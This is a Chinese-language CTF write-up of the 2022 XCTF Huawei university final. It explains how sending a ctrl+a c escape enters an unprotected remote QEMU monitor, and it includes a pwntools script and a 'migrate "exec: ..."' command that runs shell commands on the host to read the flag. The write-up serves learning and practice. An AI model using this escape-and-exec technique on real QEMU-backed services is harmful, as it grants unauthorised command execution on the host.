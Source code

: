 ```yaml
---
layout: post
tags: [ctf_wp]
title: "XCTF华为高校挑战赛决赛 复现"
author: wsxk
date: 2022-9-26
comments: true
---
```


作为一场纯嵌入式的比赛，大四菜狗比赛2天，坐牢两天....<br>
有些题目的正规解题估计很难，但是非预期解倒是非常有趣.感觉可以学一学<br>
首先作为嵌入式的题目，绝大多数都是arm架构的，一般都是用qemu跑起来。<br>
很多非预期解都是跟qemu的特性相关的，因此一些qemu特性需要我们了解<br>

- [qemu特性(不完全版)<br>](#qemu特性不完全版)
- [unsql<br>](#unsql)
- [yugioh<br>](#yugioh)
- [其他<br>](#其他)
- [总结<br>](#总结)
- [references<br>](#references)

## qemu特性(不完全版)<br>
qemu似乎有个叫做monitor的机制，在进入的monitor机制后，可以做一些特殊的操作（即原来qemu不能运行的命令）<br>
当时看到xuanxuan哥的blog后，我大受震撼！<br>
似乎在使用qemu来运行其他程序时，如果出题方给的脚本里没有开启monitor模式时，一个非预期操作就诞生了!<br>
我们似乎可以在与远程服务器进行交互时，发送`"\x01c"`（似乎是`ctrl+a c`）来使远程qemu进入monitor模式，这样我们就可以做一些其他的命令！<br>
monitor模式里可以使用的命令可以参考<br>
[https://qemu.readthedocs.io/en/latest/system/monitor.html](https://qemu.readthedocs.io/en/latest/system/monitor.html)


## unsql<br>
这道题目逆向起来似乎是非常困难的。<br>
但是查看这个程序的qemu启动脚本<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20220926220337.png)
好，它没有开monitor模式！换句话说，我们可以手动开启monitor模式来输入其他命令！<br>
因为已经没有了远程环境，我们使用本地环境来进行调试<br>
```python
from pwn import *
context(log_level='debug')

#io =remote("172.35.7.36",9999)
io = process("./start_qemu.sh")
io.send(b"\x01c")
sleep(1)
# io.sendline(b"")
# io.sendlineafter("(qemu) ",'migrate "exec: strings /rootfs.img | grep flag"')
io.interactive()
```
在进入模式后，尝试使用xuanxuan哥blog里提到的方式`migrate "exec: strings rootfs.img | grep flag"` 来尝试获取flag<br>

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20220926220706.png)
尝试了一下还真拿到了flag!<br>
~~不过migrate "exec: strings rootfs.img | grep flag"这种用法，之前确实没有见过，上面的文档里也没有，可能是老练的qemu大师的经验吧~~<br>在xuanxuan哥的帮助下在qemu的文档里找到了该命令<br>


## yugioh<br>
这道题目一开始是个游戏王的游戏，但是对方有挂，3个回合，每回合召唤一个三神兵之一，普通玩家毫无招架之力<br>
老样子，先看启动脚本<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20220926223722.png)
可以看见，同样的没有开启monitor模式，我们可以手动开启，获得monitor权限<br>
不过看xuanxuan哥的blog，在远程时可能存在一些问题<br>
这时候也体现出linux大师的力量啦，各种命令用的贼溜<br>
像`head` `tail` 这些命令，之前都不会想到。<br>
head可以读取文件开头的若干行，tail可以读取文件末尾的若干行<br>
head和tail的组合使用可以读取文件的任意行数
例如:
```shell
head -n 3 readme.txt | tail -n 2
```
可以读取readme.txt文件的第2~3行

## 其他<br>
其他的题目似乎也有题解，但是背景知识太多了，不由感叹安全领域的广阔无垠....<br>


## 总结<br>
1. qemu monitor非预期利用<br>
2. head、tail组合运用

## references<br>
[https://xuanxuanblingbling.github.io/ctf/pwn/2022/09/19/harmony/](https://xuanxuanblingbling.github.io/ctf/pwn/2022/09/19/harmony/)<br>
[https://hhb584520.github.io/kvm_blog/2017/02/17/qemu-monitor.html](https://hhb584520.github.io/kvm_blog/2017/02/17/qemu-monitor.html)<br>
[https://qemu.readthedocs.io/en/latest/system/monitor.html](https://qemu.readthedocs.io/en/latest/system/monitor.html)<br>
[https://www.jianshu.com/p/95aa966e45e9](https://www.jianshu.com/p/95aa966e45e9)